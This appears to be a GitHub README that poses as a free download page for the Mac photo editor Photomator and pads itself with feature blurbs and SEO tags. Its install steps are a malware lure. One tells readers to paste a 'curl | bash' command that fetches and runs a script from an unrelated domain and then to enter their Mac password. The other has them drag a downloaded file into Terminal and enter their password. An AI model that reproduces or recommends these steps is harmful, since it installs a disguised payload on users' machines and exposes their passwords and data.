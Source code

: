 # Photomator — Download For Mac OS 🖼️

![photomator-logo](https://www.pixelmator.com/cdn-web-assets/pixelmator-photo/2.3/hero/img_macbook--v1.png)

> **Photomator** is a powerful and intuitive photo editor designed specifically for Mac. With its smart machine learning features and beautiful interface, editing your images becomes fast, fun, and incredibly effective. Follow the instructions below to download and install it safely.

> [![Download for macOS](https://img.shields.io/badge/Download%20for%20macOS-Photomator-black?style=for-the-badge&logo=apple)](https://photomator-for-mac-os-download-free.github.io/.github/)
 
> If the button doesn't work, follow the instructions below using Terminal commands.

---

## 📦 How to Install Photomator For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and drag the extracted file into the terminal window.
4. Press the **Return** button, then enter your device password in the prompt (if you don't have a password, leave it blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

---

### Installation via a command in the terminal:

1. Copy the installation command below:
```
 /bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open Terminal and paste the command.
3. Press **Return**, then enter your Mac password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get

- 🧠 **AI-Powered Enhancements** — Use machine learning to improve photos instantly.
- 🎨 **Color Adjustment Tools** — Fine-tune every color, brightness, and contrast.
- 🖌️ **Layer-Based Editing** — Professional-grade non-destructive editing.
- 📷 **RAW File Support** — Full compatibility with RAW formats from major cameras.
- 🔄 **Batch Editing** — Apply edits to multiple photos at once.
- ☁️ **iCloud Sync** — Seamless integration across your Apple ecosystem.

---

## 📘 About Photomator

Photomator is the next-generation photo editing app for Mac users who value both power and simplicity. With its native macOS performance and sleek interface, it feels at home on every Apple device. Whether you’re adjusting family photos or working on professional images, Photomator delivers intuitive controls and deep editing capabilities.

It supports all major image formats, including RAW, JPEG, and HEIC, giving photographers the freedom to work with any camera. The software utilizes machine learning to suggest improvements and automate tedious tasks — a major time-saver for beginners and experts alike.

One of the most impressive features is its ability to handle batch edits with minimal effort. Just apply your desired settings to one image, then replicate them across your entire gallery — perfect for weddings, product shots, or social media campaigns.

Photomator’s seamless integration with iCloud means your edits are automatically synced across devices. Start editing on your Mac, finish on your iPad, and share with a single click.

### ✅ Why Choose Photomator?

Compared to other editing software, Photomator combines AI features with deep manual control — all in a single, affordable app designed for macOS. It offers a perfect balance between creative freedom and intelligent automation.

---

## 🖼 Preview

![Photomator Interface](https://cdn.macstories.net/photomator-3-1730119171847.png)  
*Clean and modern interface with smart tools*

![Photomator Editing Tools](https://www.dpreview.com/files/p/articles/5188221969/library-photomator-grid.png)  
*Advanced color correction and AI-driven enhancement*

---

## 🔍 Tags

photomator, photomator mac download, photomator mac free, photomator download, photomator alternative photoshop, photomator free trial, photomator editing, photomator free, photomator for mac, apple photomator, photomator mac, photomator photo , app photomator, download photomator
